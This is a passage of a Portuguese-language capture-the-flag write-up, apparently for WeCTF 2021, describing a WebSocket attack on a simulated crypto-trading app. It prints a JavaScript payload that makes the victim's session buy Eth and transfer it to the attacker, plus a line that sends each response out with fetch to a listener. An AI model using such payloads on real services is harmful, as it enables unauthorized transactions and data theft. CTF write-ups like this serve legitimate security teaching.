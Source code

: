 Obtemos um JSON dizendo foram feitas três transferências de 0 Eth. Isso nos mostra que a vítima em questão não possui Eth na conta, somente dólares. Não seja por isso: podemos também fazer com que ele compre Eth antes de transferir! Basta adicionar compra de Eth no payload e a flag é nossa!

```js
/* Mantém a mesma coisa que antes, mas agora tem isso */

var buy = JSON.stringify({
	"type":"buy",
	"content": {
		"amount":"7000",
	}
});

socket.onopen = function (event) {
	// Agora com buy antes 
	socket.send(buy);
	socket.send(buy);
	socket.send(buy);
	socket.send(transfer);
	socket.send(transfer);
	socket.send(transfer);
}

socket.onmessage = function (event) {
	fetch("http://localhost:8000/?response=" + event.data);
}
```

![Transferência bem sucedida no Terminal](/blog/writeup-wectf-2021/payload-parte-2.png)

Agora as requisições mostram que dinheiro foi transferido para nossa conta, e se olharmos para nosso saldo...
